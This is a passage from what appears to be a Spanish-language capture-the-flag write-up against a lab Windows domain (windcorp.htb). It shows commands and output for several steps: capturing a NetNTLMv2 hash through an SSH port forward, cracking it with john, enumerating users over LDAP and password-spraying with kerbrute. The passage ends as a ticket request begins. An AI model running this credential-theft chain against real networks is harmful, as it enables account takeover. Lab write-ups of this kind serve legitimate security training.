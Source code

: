 ```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:41:07.644236 IP 10.10.11.179 > 10.10.16.2: ICMP echo request, id 1, seq 1, length 40
15:41:07.644377 IP 10.10.16.2 > 10.10.11.179: ICMP echo reply, id 1, seq 1, length 40
15:41:08.654335 IP 10.10.11.179 > 10.10.16.2: ICMP echo request, id 1, seq 2, length 40
15:41:08.654381 IP 10.10.16.2 > 10.10.11.179: ICMP echo reply, id 1, seq 2, length 40
15:41:09.669505 IP 10.10.11.179 > 10.10.16.2: ICMP echo request, id 1, seq 3, length 40
15:41:09.669528 IP 10.10.16.2 > 10.10.11.179: ICMP echo reply, id 1, seq 3, length 40
15:41:10.687678 IP 10.10.11.179 > 10.10.16.2: ICMP echo request, id 1, seq 4, length 40
15:41:10.687714 IP 10.10.16.2 > 10.10.11.179: ICMP echo reply, id 1, seq 4, length 40
```

La intrusión no es tan sencilla ya que hay que bypassear el AMSI. Aplico un Remote Port Forwaring para traerme el puerto 445 del DC

Agrego siguiente configuración al ```/etc/ssh/sshd_config```

```null
GatewayPorts yes
```

```null
ssh root@10.10.11.179 -D 1080 -R 0.0.0.0:445:127.0.0.1:445
```

Obtengo un hash NetNTLMv2. Lo crackeo con ```john```

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@p%i&J#iNNo1T2  (scriptrunner)     
1g 0:00:00:03 DONE (2023-04-03 16:21) 0.3311g/s 4749Kp/s 4749Kc/s 4749KC/s !Sketchy!..*7¡Vamos!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Me dumpeo todos los usuarios del dominio

```null
root@webserver:/tmp# ldapsearch -H ldap://hope.windcorp.htb -b "DC=WINDCORP,DC=HTB" sAMAccountName "CN=Users,DC=windcorp,DC=HTB" | grep sAMAccountName | awk '{print $2}' > users
```

Con ```kerbrute``` hago un Password Spraying

```null
root@webserver:/tmp# ./kerbrute passwordspray -d windcorp.htb users '!@p%i&J#iNNo1T2'

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 04/03/23 - Ronnie Flathers @ropnop

2023/04/03 18:37:58 >  Using KDC(s):
2023/04/03 18:37:58 >  	hope.windcorp.htb:88

2023/04/03 18:37:59 >  [+] VALID LOGIN:	Bob.Wood@windcorp.htb:!@p%i&J#iNNo1T2
2023/04/03 18:38:04 >  [+] VALID LOGIN:	scriptrunner@windcorp.htb:!@p%i&J#iNNo1T2
2023/04/03 18:38:04 >  Done! Tested 597 logins (2 successes) in 6.344 seconds
```

Solicito un TGT para ```Bob.Wood```

